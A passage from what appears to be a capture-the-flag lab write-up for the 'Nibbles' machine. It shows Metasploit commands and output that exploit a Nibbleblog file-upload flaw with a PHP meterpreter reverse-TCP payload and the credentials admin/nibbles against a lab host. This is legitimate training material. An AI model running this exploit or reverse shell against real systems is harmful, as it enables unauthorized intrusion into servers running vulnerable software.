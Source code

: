 ```bash

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > LHOST=10.10.14.2
[-] Unknown command: LHOST=10.10.14.2
msf6 exploit(multi/http/nibbleblog_file_upload) > set LHOST 10.10.14.2
LHOST => 10.10.14.2
msf6 exploit(multi/http/nibbleblog_file_upload) > exploit

[-] Msf::OptionValidateError The following options failed to validate: USERNAME, PASSWORD
```

See Sub-section 'failures' for attempts at brute forcing the password. Ultimately, it seems that brute force will not work  - admin/nibbles is said to be the password according to numerous walk-throughs. Typically, I try to avoid walkthroughs, but this one stumped me. It does not appear that any of these walkthroughs demonstrate a method for brute-forcing either - it is said that they guessed this password correctly.

Moving on to metasploit, here are the options I ended up using:
```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.75      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog      yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf6 exploit(multi/http/nibbleblog_file_upload) > exploit
```
